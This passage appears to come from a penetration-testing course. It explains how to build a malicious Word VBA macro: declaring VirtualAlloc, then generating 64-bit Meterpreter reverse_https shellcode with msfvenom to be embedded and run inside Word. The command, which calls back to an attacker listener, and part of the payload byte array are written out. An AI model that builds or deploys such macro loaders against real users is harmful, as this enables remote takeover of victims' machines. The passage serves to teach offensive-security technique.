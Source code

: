 > Listing 18 - Function prototype for VirtualAlloc

This API accepts four arguments. The first, *lpAddress*, is the memory allocation address. If we leave this set to "0", the API will choose the location. The *dwSize* argument indicates the size of the allocation. Finally, *flAllocationType* and *flProtect* indicate the allocation type and the memory protections, which we will come back to.

The first argument and the return value are memory pointers that can be represented by *LongPtr* in VBA. The remaining three arguments are integers and can be translated to *Long*.

Let's declare these arguments in our first *Declare* statement as shown in Listing 19.

```fence
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

> Listing 19 - Function declaration for VirtualAlloc

Now that we have our *Declare* statement, we need to figure out some of the values we need. Since we don't yet know the size of our shellcode, let's generate it first.

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, and while newer versions of Microsoft Word like 365 and 2021 are 64-bit applications, older versions like 2016 run as 32-bit. In our case we will generate a 64-bit Meterpreter shellcode.

We'll use **msfvenom** to a generate shellcode formatted as *vbapplication*, as the first stage of a Meterpreter shell.

Since we'll be executing our shellcode inside Word, we'll set *EXITFUNC* to "thread" (instead of the default value of "process") so that Word won't close when the shellcode exits.

```fence
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
...
Payload size: 793 bytes
Final size of vbapplication file: 2655 bytes
buf = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,72,49,210,81,101,72,
...
06,0,89,187,224,29,42,10,65,137,218,255,213)
```

> Listing 20 - Generate shellcode in vbapplication format

We'll add this array to our VBA code.

Next, we'll set the arguments for *VirtualAlloc*. The MSDN documentation suggests that we should set supply *lpAddress* to "0", which will leave the memory allocation to the API. For the second argument, *dwSize*, we could hardcode the size of our shellcode based on the output from msfvenom, but it's better to set it dynamically. This way, if we change our payload, we won't have to change this value. We'll use the [*UBound* function](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/ubound-function) to get the size of the array (*buf*) containing the shellcode.

For the third argument, we will use 0x3000, which equates to the [allocation type enums](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) of *MEM\_COMMIT* and *MEM\_RESERVE*. This will make the operating system allocate the desired memory for us and make it available. In VBA, this hex notation will be represented as *&H3000*.
